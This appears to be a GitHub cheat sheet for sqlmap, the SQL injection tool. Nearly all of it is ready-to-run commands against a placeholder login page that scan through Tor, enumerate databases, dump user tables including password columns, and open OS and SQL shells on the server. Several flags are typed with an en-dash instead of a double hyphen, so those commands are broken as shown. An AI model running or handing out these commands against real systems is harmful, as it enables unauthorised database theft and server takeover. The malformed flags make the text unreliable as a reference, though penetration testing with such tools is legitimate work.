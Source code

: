 # Automatically Exploiting SQLi Vulnerabilities

Sqlmap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

## Cheat Sheet

### Easy Scanning option

sqlmap -u "http://testsite.com/login.php"

### Scanning by using tor

sqlmap -u "http://testsite.com/login.php" --tor --tor-type=SOCKS5

### Scanning by manually setting the return time

sqlmap -u "http://testsite.com/login.php" --time-sec 15

### List all databases at the site

sqlmap -u "http://testsite.com/login.php" --dbs

### List all tables in a specific database

sqlmap -u "http://testsite.com/login.php" -D site_db --tables

### Dump the contents of a DB table

sqlmap -u "http://testsite.com/login.php" -D site_db -T users –dump

### List all columns in a table

sqlmap -u "http://testsite.com/login.php" -D site_db -T users --columns

### Dump only selected columns

sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump

### Dump a table from a database when you have admin credentials

sqlmap -u "http://testsite.com/login.php" –method "POST" –data "username=admin&password=admin&submit=Submit" -D social_mccodes -T users –dump

### Get OS Shell

sqlmap --dbms=mysql -u "http://testsite.com/login.php" --os-shell

### Get SQL Shell

sqlmap --dbms=mysql -u "http://testsite.com/login.php" --sql-shell

The ultimate manual for sqlmap can also be found here

https://github.com/aramosf/sqlmap-cheatsheet/blob/master/sqlmap%20cheatsheet%20v1.0-SBD.pdf

